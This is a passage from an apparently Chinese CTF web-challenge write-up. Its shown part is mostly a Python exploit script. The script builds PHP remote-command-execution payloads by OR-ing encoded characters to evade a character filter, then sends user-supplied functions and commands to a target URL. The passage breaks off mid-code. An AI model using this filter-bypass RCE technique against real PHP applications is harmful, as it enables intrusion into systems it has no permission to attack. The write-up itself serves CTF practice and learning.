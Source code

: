 <img src="/images/ctf-web06/image-20220925203512064.png" alt="image-20220925203512064" style="zoom:67%;" />

构造命令并发送通过python脚本来完成

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
# os.system("php rce_or.php")  # 没有将php写入环境变量需手动运行
if (len(argv) != 2):
    print("=" * 50)
    print('USER：python exp.py <url>')
    print("eg：  python exp.py http://ctf.show/")
    print("=" * 50)
    exit(0)
url = argv[1]
def action(arg):
    s1 = ""
    s2 = ""
    for i in arg: # 这里的arg就是我们需要执行的命令,及这个命令的参数, 例如show_source(flag.php)
        f = open("rce_or.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i: # 对于arg中的每个字符, 取出能够通过运算得到它的两个编码
                # print(i)
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = "(\"" + s1 + "\"|\"" + s2 + "\")" 
    # 得到的结果是第一个编码组成的串和第二个编码组成的串的或运算结果, 注意中间那个"|"是进行或运算的意思
    return (output)
while True:
    param = action(input("\n[+] your function：")) + action(input("[+] your command："))
    data = {
```